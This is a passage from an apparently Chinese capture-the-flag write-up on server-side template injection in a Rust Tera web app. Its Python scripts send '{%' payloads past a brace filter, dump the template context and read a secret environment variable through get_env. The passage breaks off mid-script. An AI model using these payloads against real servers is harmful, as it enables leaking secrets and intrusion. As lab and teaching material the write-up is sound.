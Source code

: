 但是，请求中的 `{{{:js}` 和 `}}{:js}` 被屏蔽了。

```python {9-10}
import requests
url = "http://10.212.25.14:49574/"
def fetch(data):
    body = "content=" + data
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = requests.post(url, data=body, headers=headers)
    print(r.text.replace("\\n", "\n").replace("\\", ''))
fetch("{}") # …<div class="result">您的身高为 {} cm</div>…
fetch("}}") # forbbidden!
fetch("{{") # forbbidden!
```

故只能使用 `{%` 和 `%}` 嵌入流程控制语句。hint 中提示获取当前上下文，可知我们需要  `__tera_context{:rs}`。

> A magical variable is available in every template if you want to print the current context: `__tera_context{:rs}`.
>

随意构造一个错误的语句，从返回的报错中可以发现使用了 `Tera::one_off{:rs}` one off template。

```python
fetch("{% println!(__tera_context) %}")

Error while rendering: Error { kind: Msg("Failed to parse '__tera_one_off'"), source: Some(Error { kind: Msg("  --> 18:35
   |
18 |         <div class="result">您的身高为 {% println!(__tera_context) %} cm</div>
   |                                   ^---
   |
   = unexpected tag; expected end of input or some content"), source: None })
```

与字符串相关的有 `filter{:rs}`，但是并没有实际可以使用的，也没有函数可分割字符串。查阅文档发现 for 循环可以逐字符，不过比较坑的是 [Playground](https://tera.netlify.app/playground/) 的版本可能旧了，这个功能无法使用。

```rust
{% for letter in "hahahaha" %}
  {% if loop.index % 2 == 0%}
    <span style="color:red">{{ letter }}</span>
  {% else %}
    <span style="color:blue">{{ letter }}</span>
  {% endif %}
{% endfor %}
```

因为 `println!{:rs}` 没有导入，不像 Flask 中有 `print{:py}` 可以用，不能直接输出变量的值。不过我们可以用一个有 128 个分支的 if 来输出所有 ASCII 字符。

输出 `__tera_context{:rs}` 后发现有一个环境变量 `se3ret{:sh}`，故我们还要用 `set{:rs}` 和 built-in 函数 `get_env{:rs}` 将其储存在一个变量中才能在 context 中看见它。

完整的代码如下：

```python
import requests
url = "http://10.212.25.14:49452/"

def get_branch(i):
    char = chr(i)
    quoted_char = f"""'{char}'""" if char != "'" else '''"'"'''
    return """{%- elif char == """ + quoted_char + """ -%} """ + char + " "

branches = map(get_branch, range(127))

data = """
{% set arr = [__tera_context] %}
{% set flag = get_env(name="se3ret") %}
```
